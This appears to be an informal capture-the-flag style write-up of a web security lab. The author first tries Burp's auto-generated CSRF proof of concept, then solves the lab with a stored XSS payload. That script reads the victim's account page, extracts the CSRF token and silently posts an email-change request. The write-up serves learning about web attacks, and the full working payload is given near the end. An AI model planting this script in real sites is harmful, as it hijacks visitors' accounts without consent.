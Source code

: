 --> So first i logged in as `wiener` and after login we can see that we have functionality of changing email. so i intercepted the change email request and after that done this steps :

Do `right click -> engagement tools -> generate CSRF Poc`

After that goto `options` in CSRF poc tab and select `include auto-submit script` and click regenerate and then copy the HTML.

After that open any post and paste that HTML.And now whenever you will goto that post it will redirect you to your account page and change your email!

But it didn't solved the lab idk why :(

--> So now maybe we don't have to redirect the user in different page instead we have to do this using js only.

So i used XMLHTTPRequest and made this payload to make request to my acoount page in background whenever page gets loaded.

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get", "/my-account", true);
  req.send();
  function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("post", "/my-account/change-email", true);
    changeReq.send("csrf=" + token + "&email=test@test.com");
  }
</script>
```

And it worked !!

--> And we solved the lab!

